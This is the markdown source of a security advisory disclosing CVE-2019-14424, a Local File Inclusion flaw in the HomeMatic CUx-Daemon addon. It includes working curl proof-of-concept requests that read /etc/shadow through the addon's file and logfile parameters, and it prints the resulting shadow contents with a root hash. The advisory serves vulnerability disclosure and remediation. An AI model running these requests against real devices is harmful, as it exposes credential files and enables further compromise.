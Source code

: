 ```yaml
---
layout: post
title: "Local File Inclusion in HomeMatic CUx-Daemon"
date: 2019-07-15 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-14424"
cve_description: "A Local File Inclusion (LFI) issue in the addon CUx-Daemon Version 1.11a of the HomeMatic CCU-Firmware 2.35.16 until 2.45.6 allows remote authenticated attackers to read sensitive files via a simple HTTP Request."
cve_affectedVersion: "CUx-Daemon Version 1.11a until 2.2.0"
cvss: "6.5"
cvss_vector: "3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N"
softwarePatchLink: "[https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd](https://www.homematic-inside.de/blog/cuxd-in-der-version-2-3-0-erschienen?highlight=cuxd)"
---
```


## Overview

- Vulnerability: Local File Inclusion (LFI)
- Vendor: Uwe Langhammer (Alex Krypthul)
- Vendor Homepage: [https://www.homematic-inside.de/software/cuxd](https://www.homematic-inside.de/software/cuxd)
- Product: HomeMatic Addon CUx-Daemon
- Testet on: CCU-Firmware 2.35.16 until 2.45.6 CUx-Daemon Version 1.5a
- Version: {{ page.cve_affectedVersion }}

## Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the HomeMatic's [website](https://www.eq-3.com/products/homematic/control-units-and-gateways.html):
"Homematic devices can be connected to one another and programmed via the control units and gateways. The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home..."

Link to the vulnerable [addon](https://www.homematic-inside.de/software/cuxd): This addon is compartible with CCU1, CCU2, CCU3 and RaspberryMatic. The issue can found on this systems as well.

## Issue Description

While analyzing the implementation of the home automation system HomeMatic, one Local File Inclusion (LFI) vulnerability has been identified, which can be exploited in order to display sensitive information. The vulnerability is in the default CUx daemon addon of CCU firmware 2.35.16 to 2.45.6.

![Affected Version](/assets/CVE-2019-14424/CVE-2019-14424.HomeMatic.Version.JPG)

This vulnerability can be exploited by authenticated attackers with access to the web interface to display secret files for future attacks against this system.

The following **bash commands** illustrates this approach:

~~~ bash
curl -k http://192.168.0.125/addons/cuxd/index.ccc\?file\=/etc/shadow
curl -i -s -k  -X $'GET' \
    -H $'Host: 192.168.0.125' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.0.125/addons/cuxd/index.ccc/?m=24' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    $'http://192.168.0.125/addons/cuxd/index.ccc/?filter=&m=24&lines=25&logfile=/etc/shadow'
~~~

Output of the first **bash command** command:

~~~ bash
root:zCQOnlsoVSv5.:19087:0:99999:7:::
bin:*:10933:0:99999:7:::
daemon:*:10933:0:99999:7:::
adm:*:10933:0:99999:7:::
lp:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
shutdown:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
default:*:10933:0:99999:7:::
~~~

Website call in brwoser with **Local File Inclusion command**:
![POC execute systemcall and read /etc/shadow file](/assets/CVE-2019-14424/CVE-2019-14424.HomeMatic.POC.JPG)

## Impact

This vulnerability affects the confidentiality of secret system files. This allows an attacker to read any system data. If an attacker is aware of the security issue, he or she may steal important data to compromise the system in the next step.

## Remediation

In order to avoid this vulnerability, it's suggested to disable the addon:
**{{ page.cve_affectedVersion }}**

{%if page.softwarePatchLink %}{{ site.softwarePatchText }}{{ page.softwarePatchLink }}{% else %}{{ "" }}{% endif %}

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: {{ page.cvss_vector }}

## Credit

- {{ site.owner }}

## Disclosure Timeline

- 2019-June-15: Discovered vulnerability
- 2019-June-16: Vendor Notification
- 2019-June-21: Vendor Fix/Patch
- 2019-Juli-15: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 {{ site.owner }} and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## License

{{ site.LicenseDisplay }}